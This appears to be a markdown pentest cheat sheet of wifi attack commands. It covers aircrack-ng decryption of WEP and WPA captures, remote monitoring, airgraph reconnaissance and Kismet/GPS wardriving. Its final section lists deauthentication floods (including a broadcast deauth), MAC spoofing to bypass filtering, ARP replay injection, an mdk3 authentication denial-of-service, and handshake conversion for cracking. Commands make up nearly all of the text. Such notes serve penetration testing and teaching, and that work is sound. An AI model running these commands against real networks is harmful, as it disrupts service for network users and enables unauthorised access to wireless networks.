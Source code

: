 # Wifi - Additional Tricks and Tools

## Additional Aircrack-NG Tools

### Remove Wireless Headers

```powershell
airdecap-ng -b $AP_MAC open-network.cap
* -dec.cap: stripped version of the file
```

### Decrypt a WEP encrypted capture file

```powershell
airdecap-ng -w $WEP_KEY wep.cap
```

### Decrypt a WPA2 encrypted capture file

```powershell
airdecap-ng -e $AP_SSID -p $WPA_PASSWORD tkip.cap
```

### Remote Aircrack Suite

```powershell
airmon-ng start wlan0 3
airserv-ng -p 1337 -c 3 -d mon0
airodump-ng -c 3 --bssid $AP_MAC $HOST:$PORT
```

### Wireless Intrusion Detection System

> Require wireless key and bssid

```powershell
airmon-ng start wlan0 3

# create the at0 interface
airtun-ng -a $AP_MAC -w $WEP_KEY mon0
# the interface will auto decrypt packets
```

## Wireless Reconnaissance

> Use CSV file from airodump

CAPR Graph

```powershell
airgraph-ng -i wifu-01.csv -g CAPR -o wifu-capr.png
# color
- green: wpa
- yellow: wep
- red: open
- black: unknown
```

CPG - Client Probe Graph

```powershell
airgraph-ng -i wifu-01.csv -g CPG -o wifu-cpg.png
```

## Kismet

```powershell
kismet
[enter][enter]
[tab][close]

# Select a source and begin a monitoring
Kismet > Add source > wlan0 > Add

.nettxt: data
.pcapdump: wireshark format
```

```powershell
# giskismet: kismet inside a SQL database
> require a GPS receiver

gpsd -n -N -D4 /dev/ttyUSB0
-N : foreground 
-D : debugging level

# kismet will gather SSID and GPS location
giskismet -x kismet.netxml

# generate a kml file (Google Earth)
giskismet -q "select * from wireless" -o allaps.kml
giskismet -q "select * from wireless where Encryption='WEP'" -o wepaps.kml
```

## Other things

```powershell
# Find Hidden SSID
aireplay-ng -0 20 –a <BSSID> -c <VictimMac> mon0

# Mac Filtering
macchanger –-mac <VictimMac> wlan0mon
aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
# MAC CHANGER
ifconfig wlan0mon down
macchanger –-mac <macVictima> wlan0mon
ifconfig wlan0mon up

# Deauth Global
aireplay-ng -0 0 -e hacklab -c FF:FF:FF:FF:FF:FF wlan0mon

# Authentication DoS Mode
mdk3 wlan0mon a -a $AP_MAC

# Tshark - Filter and dislay data
tshark -r Captura-02.cap -Y "eapol" 2>/dev/null
tshark -i wlan0mon -Y "wlan.fc.type_subtype==4" 2>/dev/null
tshark -r Captura-02.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" 2>/dev/null

# Convert .cap with handshake to .hccap
aircrack-ng -J network network.cap
```